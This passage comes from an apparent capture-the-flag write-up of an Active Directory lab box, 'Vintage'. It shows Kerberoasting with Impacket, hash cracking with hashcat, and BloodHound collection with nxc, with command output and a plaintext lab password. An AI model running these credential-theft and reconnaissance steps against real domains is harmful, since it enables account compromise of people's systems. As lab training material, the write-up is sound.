 ```console
$ GetUserSPNs.py vintage.htb/p.rosa -usersfile users.txt -outputfile kerberoast.hashes
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Password:Rosaisbest123
<SNIP>

$ hashcat -m 13100 kerberoast.hashes $ROCKYOU
```

Cracking those hashes with a standard `rockyou.txt` wordlist does not work. Then I proceeded to run BloodHound.

```console
$ nxc ldap dc01.vintage.htb -u P.Rosa -p Rosaisbest123 -k --bloodhound --dns-server 10.10.11.45 -c All
LDAP        dc01.vintage.htb 389    DC01             [*] None (name:DC01) (domain:vintage.htb)
LDAP        dc01.vintage.htb 389    DC01             [+] vintage.htb\P.Rosa:Rosaisbest123
LDAP        dc01.vintage.htb 389    DC01             Resolved collection methods: group, localadmin, session, trusts
LDAP        dc01.vintage.htb 389    DC01             Using kerberos auth without ccache, getting TGT
LDAP        dc01.vintage.htb 389    DC01             Done in 00M 04S
LDAP        dc01.vintage.htb 389    DC01             Compressing output into /home/s3rp3nt/.nxc/logs/DC01_dc01.vintage.htb_2024-12-31_113029_bloodhound.zip
```

## Foothold
The first thing I found was that the computer account `FS01$` belongs to the `PRE-WINDOWS 2000` group. 

![](/assets/images/writeups/vintage/BH-FS01-Member.png)
